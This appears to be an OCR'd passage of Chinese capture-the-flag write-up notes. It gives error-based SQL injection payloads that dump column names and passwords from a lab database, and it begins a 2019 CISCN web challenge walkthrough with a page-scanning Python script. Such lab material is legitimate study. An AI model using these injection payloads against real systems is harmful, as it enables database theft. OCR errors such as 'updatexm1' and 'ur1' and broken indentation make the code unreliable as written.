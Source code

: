 ```
#查字段名
' or updatexm1(1,concat('~',(select group_concat(column_name) from information_schema.columns where table name="geekuser")),1) #
```



```
' or updatexm1(1,concat('~',(select password from geekuser limit 0,1)),1) #

# username : in_fact
# password: This_question_is_very_simple
```

### 小技巧

```mysql
like'%flag%

' or updatexml(1,payload,1)
payload = select password from geekuser where password like '%flag%
```

# [2019 CISCN]华北赛区 Day1 Web2

考点: Python、支付逻辑漏洞、Cookie篡改、重放攻击、JWT破解、垂直越权、代码审计、Python反序列化漏洞

## 使用Python去找lv6

```
# -*- coding: utf-8 -*-

def get_lv6():
	import requests
	for i in range(400) :
		url ='http://0ab1987d-baea-4dea-a200-3b1771b87ff4.node4.buuoj.cn:81/shop?page={}'.format(i)
		resp = requests.get(ur1)
		if 'lv6.png' in resp.content.decode( 'utf-8'):
		print(i)
		break
	
if __name__=='__main__':
	get_lv6()
```

lv6在181页

http://0ab1987d-baea-4dea-a200-3b1771b87ff4.node4.buuoj.cn:81/shop?page=181

## 注册登录

```
账号：qwerty
邮箱：qwerty@123.com
密码：qwerty
```
